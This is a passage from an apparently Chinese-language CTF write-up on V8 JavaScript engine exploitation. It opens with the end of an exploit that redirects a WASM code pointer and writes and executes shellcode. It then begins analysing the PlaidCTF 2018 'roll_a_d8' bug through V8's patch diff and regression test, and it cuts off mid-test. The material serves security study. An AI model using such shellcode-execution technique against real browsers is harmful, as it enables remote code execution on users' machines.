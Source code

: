 ```
faker[8] = i2f64(wasm_shellcode_addr);
//替换wasm的shellcode
for (var i=0;i&lt;shellcode.length;i++) `{`
   adv.setUint32(i*4,shellcode[i],true);
`}`
//执行shellcode
func();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
```

### <a class="reference-link" name="0x03.01%20plaidctf2018-roll_a_d8"></a>0x03.01 plaidctf2018-roll_a_d8

#### <a class="reference-link" name="patch%E5%88%86%E6%9E%90"></a>patch分析

```
diff --git a/src/builtins/builtins-array-gen.cc b/src/builtins/builtins-array-gen.cc
index dcf3be4..3a74342 100644
--- a/src/builtins/builtins-array-gen.cc
+++ b/src/builtins/builtins-array-gen.cc
@@ -1945,10 +1945,13 @@
   void GenerateSetLength(TNode&lt;Context&gt; context, TNode&lt;Object&gt; array,
                          TNode&lt;Number&gt; length) `{`
     Label fast(this), runtime(this), done(this);
+    // TODO(delphick): We should be able to skip the fast set altogether, if the
+    // length already equals the expected length, which it always is now on the
+    // fast path.
     // Only set the length in this stub if
     // 1) the array has fast elements,
     // 2) the length is writable,
-    // 3) the new length is greater than or equal to the old length.
+    // 3) the new length is equal to the old length.

     // 1) Check that the array has fast elements.
     // TODO(delphick): Consider changing this since it does an an unnecessary
@@ -1970,10 +1973,10 @@
       // BranchIfFastJSArray above.
       EnsureArrayLengthWritable(LoadMap(fast_array), &amp;runtime);

-      // 3) If the created array already has a length greater than required,
+      // 3) If the created array's length does not match the required length,
       //    then use the runtime to set the property as that will insert holes
-      //    into the excess elements and/or shrink the backing store.
-      GotoIf(SmiLessThan(length_smi, old_length), &amp;runtime);
+      //    into excess elements or shrink the backing store as appropriate.
+      GotoIf(SmiNotEqual(length_smi, old_length), &amp;runtime);

       StoreObjectFieldNoWriteBarrier(fast_array, JSArray::kLengthOffset,
                                      length_smi);
diff --git a/test/mjsunit/regress/regress-821137.js b/test/mjsunit/regress/regress-821137.js
new file mode 100644
index 0000000..639b3b9
--- /dev/null
+++ b/test/mjsunit/regress/regress-821137.js
@@ -0,0 +1,27 @@
+// Copyright 2018 the V8 project authors. All rights reserved.
+// Use of this source code is governed by a BSD-style license that can be
+// found in the LICENSE file.
+
+// Tests that creating an iterator that shrinks the array populated by
```